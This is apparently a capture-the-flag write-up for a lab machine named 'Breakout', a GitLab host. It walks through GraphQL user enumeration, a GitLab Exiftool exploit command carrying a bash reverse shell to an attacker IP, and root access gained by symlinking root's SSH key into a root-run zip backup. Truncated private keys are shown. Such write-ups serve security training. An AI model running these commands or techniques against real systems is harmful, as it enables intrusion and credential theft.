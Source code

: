 # Breakout

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:28 +08
Warning: 192.168.183.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.182
Host is up (0.17s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Web Enum --> GraphQL

Port 80 reveals a Gitlab instance:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

I tried registering a user, but it wasn't allowed since the Gitlab administrator needed to approve first. I ran a `feroxbuster` scan to enumerate directories.&#x20;

```
$ feroxbuster -u http://192.168.183.182
200      GET      264l     1543w        0c http://192.168.183.182/search
200      GET      353l     2789w        0c http://192.168.183.182/help
301      GET        1l        5w       98c http://192.168.183.182/profile => http://192.168.183.182/-/profile
200      GET      363l     1838w        0c http://192.168.183.182/public
302      GET        1l        5w      105c http://192.168.183.182/snippets => http://192.168.183.182/explore/snippets
302      GET        1l        5w       96c http://192.168.183.182/projects => http://192.168.183.182/explore
401      GET        0l        0w        0c http://192.168.183.182/v2
302      GET        1l        5w      103c http://192.168.183.182/groups => http://192.168.183.182/explore/groups
200      GET      441l     2057w        0c http://192.168.183.182/webmaster
200      GET      441l     2057w        0c http://192.168.183.182/root
200      GET      363l     1838w        0c http://192.168.183.182/explore
```

There wasn't much from this though. I searched for Gitlab enumeration, hoping to get someone'e cheatsheet on how to enumerate Gitlab instances, but found this instead:

{% embed url="https://www.rapid7.com/blog/post/2022/03/03/cve-2021-4191-gitlab-graphql-api-user-enumeration-fixed/" %}

I tried their PoC of accessing Gitlab using `/-/graphql-explorer`, and it worked:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### GraphQL User Enum  --> User Login

The CVE above mentions that this allows us to enumerate users using this query:

```
{users{nodes{id name username}}}
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We have 2 new users, `coaran` and `michelle`. Then, we can login with `michelle:michelle`:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

### Gitlab RCE

Using this user, we can enumerate the version of Gitlab running:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to the Gitlab Exiftool RCE exploit.&#x20;

{% embed url="https://github.com/CsEnox/Gitlab-Exiftool-RCE" %}

```
$ python3 exploit.py -u michelle -p michelle -c "bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'" -t http://192.168.183.182
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LinPEAS --> SSH Key

I ran `linpeas.sh` and it found some potential SSH keys.&#x20;

```
[+] Searching ssl/ssh files
ChallengeResponseAuthentication no                                                           
UsePAM yes
Possible private SSH keys were found!
/var/opt/gitlab/backups/mykey
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```

We can read the file and verify that it is an SSH key:

```
git@breakout:/tmp$ cat /var/opt/gitlab/backups/mykey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4eDGWPfq/wKo4whXeFRr8Dq+wgoCClqpJmxRajPmCaSrULo/uPad
<TRUNCATED>
```

We know that there are 2 users on the machine, and I tested with both. Using this key, we can `ssh` in as `coaron`:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

### Pspy --> Symlink Exploit

`linpeas.sh` didn't reveal much, so I ran a `pspy64` instead. I found some interesting processes involving zip files:

{% code overflow="wrap" %}
```
2023/07/12 07:46:01 CMD: UID=0    PID=320345 | bash /opt/backups/backup.sh 
2023/07/12 07:46:01 CMD: UID=0    PID=320346 | /usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/alertmanager /srv/gitlab/logs/gitaly /srv/gitlab/logs/gitlab-exporter /srv/gitlab/logs/gitlab-rails /srv/gitlab/logs/gitlab-shell /srv/gitlab/logs/gitlab-workhorse /srv/gitlab/logs/grafana /srv/gitlab/logs/logrotate /srv/gitlab/logs/nginx /srv/gitlab/logs/postgres-exporter /srv/gitlab/logs/postgresql /srv/gitlab/logs/prometheus /srv/gitlab/logs/puma /srv/gitlab/logs/reconfigure /srv/gitlab/logs/redis /srv/gitlab/logs/redis-exporter /srv/gitlab/logs/sidekiq /srv/gitlab/logs/sshd

coaran@breakout:/tmp$ cat /opt/backups/backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
```
{% endcode %}

Since this is being run by root, we can create a symlink here that points towards the `root` user's private SSH key. However, we cannot view the files or write to it as `coaron`, but it seems the `git` user can on the Docker container its in.

```
git@breakout:/srv$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 55.5M  1 loop 
loop1    7:1    0 55.5M  1 loop 
loop2    7:2    0 61.9M  1 loop 
loop3    7:3    0 61.9M  1 loop 
loop4    7:4    0 43.6M  1 loop 
loop5    7:5    0 67.2M  1 loop 
loop6    7:6    0 67.9M  1 loop 
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0    1M  0 part 
└─sda2   8:2    0   10G  0 part /var/log/gitlab
sr0     11:0    1 1024M  0 rom

git@breakout:/var/log/gitlab$ ls -la
total 80
drwxr-xr-x 20 root              root       4096 Mar  3  2022 .
drwxr-xr-x  1 root              root       4096 Feb 23  2021 ..
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 alertmanager
drwx------  2 git               root       4096 Jul 12 07:37 gitaly
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-exporter
drwx------  2 git               root       4096 Jul 12 07:38 gitlab-rails
drwx------  2 git               root       4096 Mar  3  2022 gitlab-shell
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-workhorse
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 grafana
drwx------  2 root              root       4096 Jan 30 10:45 logrotate
drwxr-x---  2 root              gitlab-www 4096 Feb 17 00:28 nginx
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgres-exporter
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgresql
drwx------  2 gitlab-prometheus root       4096 Jul 12 07:28 prometheus
drwx------  2 git               root       4096 Feb 17 17:18 puma
drwxr-xr-x  2 root              root       4096 Feb 16 17:18 reconfigure
drwx------  2 gitlab-redis      root       4096 Jul 12 07:27 redis
drwx------  2 gitlab-redis      root       4096 Feb 17 17:18 redis-exporter
drwx------  2 git               root       4096 Jul 12 07:27 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 30 10:45 sshd
```

We can then create the symlink here:

```
git@breakout:/var/log/gitlab/gitaly$ ln -s /root/.ssh/id_rsa test1
```

Afterwards, we just need to wait for a bit before the script executes and makes a new zip file in `/opt/backups`. Once it does, copy the folder elsewhere and unzip it to reveal the SSH private key of `root`:

```
coaran@breakout:/dev/shm/srv/gitlab/logs/gitaly$ cat test1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzAu+X5sUIUBGFen/rkbr6M09cLPZvlsrphqkjcZQ48zivybhHMIJ
<TRUNCATED>
```

We can then use this key to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
